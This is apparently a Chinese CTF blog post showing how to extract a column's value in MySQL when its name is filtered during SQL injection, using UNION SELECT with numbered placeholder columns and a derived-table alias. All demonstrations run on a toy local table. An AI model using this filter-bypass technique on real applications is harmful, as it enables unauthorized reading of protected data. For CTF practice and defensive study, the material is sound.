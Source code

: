 ```yaml
---
title: CTF中SQL注入字段名被过滤小技巧
tags:
  - CTF
  - 注入
  - web
category: [渗透测试,Web安全,SQL注入]
abbrlink: a62e54a0
date: 2018-03-12 11:04:07
---
```

# 0x00 前言 
CTF中SQL注入字段名被过滤小技巧，后续有学习到啥好方法再加进来
# 0x01 问题引入
```mysql
mysql> select * from users;
+--------+-----------+
| points | flag      |
+--------+-----------+
| 31     | daiker666 |
+--------+-----------+
1 row in set (0.00 sec)
```
然后我们已经知道表名users，要查询flag的值，但是flag被过滤了。
<!--more-->
# 0x02 问题思考
常规的查询是`select flag from users`,如果我要在们的查询语句中不见到`flag`，就得把`flag`这个列设置别名，mysql设置列别名有两种方法。
```mysql
mysql> select flag as haha from users;
+-----------+
| haha      |
+-----------+
| daiker666 |
+-----------+
1 row in set (0.00 sec)

mysql> select (flag)haha from users;
+-----------+
| haha      |
+-----------+
| daiker666 |
+-----------+
1 row in set (0.00 sec)
```
但是这样我们还会出现flag这个字段。这时候想到这个
```mysql
mysql> select 1;
+---+
| 1 |
+---+
| 1 |
+---+
1 row in set (0.00 sec)

mysql> select 1,2;
+---+---+
| 1 | 2 |
+---+---+
| 1 | 2 |
+---+---+
1 row in set (0.00 sec)
```
这样列名不久变成我们想要的结果，然而我们想要的结果是users表的内容，我们可以使用联合查询
```mysql
mysql> select 1,2 union select * from users;
+------+-----------+
| 1    | 2         |
+------+-----------+
| 1    | 2         |
| 31   | daiker666 |
+------+-----------+
2 rows in set (0.01 sec)
```
这样我们想要的值就在表里面，，下面思考下怎么提取出来，查询的结果是一张虚表，我们可以用设置别名的方法给这张表命名
```mysql
mysql> select * from (select 1,2 union select * from users)c;
+------+-----------+
| 1    | 2         |
+------+-----------+
| 1    | 2         |
| 31   | daiker666 |
+------+-----------+
2 rows in set (0.02 sec)
```
然后提取flag
```mysql
mysql> select c.2 from (select 1,2 union select * from users)c limit 1,2;
+-----------+
| 2         |
+-----------+
| daiker666 |
+-----------+
1 row in set (0.02 sec)
```